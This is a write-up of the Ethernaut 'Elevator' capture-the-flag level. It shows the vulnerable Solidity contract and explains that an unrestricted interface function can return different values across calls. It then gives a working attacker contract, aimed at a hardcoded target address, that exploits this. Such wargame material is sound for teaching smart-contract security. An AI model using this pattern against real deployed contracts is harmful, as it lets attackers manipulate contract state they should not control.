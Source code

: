 # Ethernaut - Level 11 - Elevator

Contract code:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

Objectives:
```
This elevator won't let you reach the top of your building. Right?
```

The idea here is very simple.

We can build a Building contract with a method called ```isLastFloor``` that we expose as our interface to the ethernaut contract. Since this function is declare without any type of restriction (eg. pure or view function), we can create a simple function that return two different values: the first time that it's called false, and the second time true.

Attacker contract:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Elevator {
  function goTo(uint) external;
}



contract Building {
  uint private lastFloor;
  uint private x = 0;

  function isLastFloor(uint floor) external returns (bool) {
    if(x == 0){
      x++;
      return false;
    }
    else {
      return true;
    }
  }


  function CallAnElevator() public {
        address TARGET_ELEVATOR = 0x70f5021ea22A15c68150d02695d0E51850E495af;

    Elevator(TARGET_ELEVATOR).goTo(lastFloor);
  }


}
```
